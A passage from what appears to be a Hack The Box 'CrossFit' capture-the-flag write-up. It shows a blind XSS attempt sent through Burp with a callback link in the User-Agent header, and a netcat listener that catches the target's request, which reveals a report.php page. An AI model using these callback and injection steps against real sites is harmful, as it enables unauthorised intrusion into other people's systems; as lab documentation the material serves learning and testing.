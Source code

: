 ![](/assets/img/2-xss-test-caught-burp.png)

Using Burp I sent a request with a link to my machine in the `User-Agent` field.  I made sure to send the same XSS attempt so this would be forwarded to the admin.

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8090                       
listening on [any] 8090 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.208] 56252
GET / HTTP/1.1
Host: 10.10.15.98:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gym-club.crossfit.htb/security_threat/report.php
Connection: keep-alive
```

I received an HTTP GET request to my waiting netcat listener.  

![](/assets/img/2-security-report-denied.png)

In the `Referer` field I saw `/security_threat/report.php` in the response headers, but was not able to access it.  The code in this PHP file must have been what had checked the XSS request I had made, and somehow executed the `<script>` tags I had embedded, while creating the report for the admin.
